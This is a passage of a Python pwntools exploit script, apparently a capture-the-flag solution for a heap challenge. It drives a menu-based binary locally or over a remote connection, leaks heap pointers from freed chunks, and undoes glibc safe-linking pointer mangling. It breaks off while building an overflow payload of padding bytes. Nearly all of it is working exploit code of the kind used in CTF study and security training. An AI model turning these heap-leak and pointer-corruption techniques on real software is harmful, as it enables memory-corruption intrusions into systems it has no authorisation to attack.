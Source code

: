 ```python
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", secret)


def stack_free():
    target.sendlineafter(b": ", b"stack_free")


def stack_scanf(data):
    target.sendlineafter(b": ", b"stack_scanf")
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def mangle(pos, ptr, shifted=1):
    if shifted:
        return pos ^ ptr
    return (pos >> 12) ^ ptr


def demangle(pos, ptr, shifted=1):
    if shifted:
        return mangle(pos, ptr)
    return mangle(pos, ptr, 0)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)

    puts(1)
    target.recvuntil(b"Data: ")
    pos = int.from_bytes(target.recvline().strip(), "little")

    puts(0)
    target.recvuntil(b"Data: ")
    mangled = int.from_bytes(target.recvline().strip(), "little")

    target.success(f"pos: {hex(pos)}")
    target.success(f"mangled: {hex(mangled)}")

    payload = flat(
        b"A" * 0x30,
```